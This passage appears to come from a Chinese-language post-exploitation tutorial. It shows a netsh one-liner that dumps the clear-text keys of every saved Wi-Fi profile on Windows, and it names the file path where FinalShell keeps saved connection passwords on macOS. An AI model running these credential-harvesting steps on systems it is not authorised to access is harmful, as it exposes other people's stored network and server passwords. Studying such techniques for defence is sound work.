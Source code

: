 [![](assets/1699927162-60e8c7feea06afe78e4dd80aff458cee.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-a4cb2dfcb7d3cc21722e26dcda59ec8491f15b68.png)

## 0x11获取wifi连接密码

`for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear`

## 0x12获取FinalShell连接密码

以MAC为例，Finalshell保存密码的默认路径为：

`/Users/<yourhostname>/Library/FinalShell/conn`

[![](assets/1699927162-8696dbe3dcf9dfbb87fd9c20165cf72b.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-31dca773de8632b2b86afb7c8fa27eef21e1a140.png)

[![](assets/1699927162-360143a7df52731290074b076eca8fba.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8a0f1fc2d810567b39ede6aada0a64c6ec593e71.png)
